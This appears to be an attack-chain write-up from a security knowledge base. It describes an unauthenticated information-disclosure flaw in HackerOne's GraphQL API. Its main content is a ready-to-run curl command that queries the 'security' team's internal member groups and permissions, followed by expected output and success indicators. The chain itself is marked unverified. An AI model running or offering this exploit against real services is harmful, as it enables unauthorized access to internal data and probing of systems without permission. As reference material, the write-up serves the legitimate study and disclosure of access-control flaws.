

# Information Disclosure via Unauthorized GraphQL Team Query in HackerOne API

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform with GraphQL API endpoint
- No authentication required for public queries
- Network access to the API endpoint (e.g., https://api.hackerone.com/graphql)

### Initial Access Requirements

- Internet access
- No credentials needed due to the authorization flaw
- Basic knowledge of GraphQL syntax

## Detailed Attack Procedures

### Step 1: Execute Unauthorized GraphQL Query
procedure: [[procedures/Query-GraphQL-API-for-Unauthorized-Team-Member-Groups]]

**Objective**: Send a crafted GraphQL query to the HackerOne API to retrieve sensitive internal team details, including member groups, names, and permissions, without authentication.

**Instructions**: Use [[commands/curl-graphql-team-query]] to send a POST request to the GraphQL endpoint targeting the 'security' team handle. This exploits the lack of access controls on the 'team_member_groups' field.

```bash
curl -X POST https://api.hackerone.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "query {team(handle:\"security\"){id,name,handle,members{total_count},team_member_groups{id,name,permissions}}}"}'
```

Then, parse the response for disclosed data such as group IDs, names (e.g., 'Admin', 'Support'), and permissions (e.g., 'user_management').

**Expected Output**: JSON response containing team data, e.g., {"data":{"team":{"id":"Z2lkOi8vaGFja2Vyb25lL1RlYW0vMTM=","name":"HackerOne","handle":"security","members":{"total_count":30},"team_member_groups":[{"id":"7506","name":"Support","permissions":["support_mutation"]}]}}}

**Success Indicators**:
- Response includes 'team_member_groups' array with internal group details
- Permissions like 'program_management' are visible without auth
- No error for unauthorized access

## Attack Chain Summary

### Key Achievements

1. Unauthorized retrieval of internal team structures
2. Exposure of group permissions enabling inference of private program access
3. Demonstration of broken access control in GraphQL schema

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T12:00:00Z*
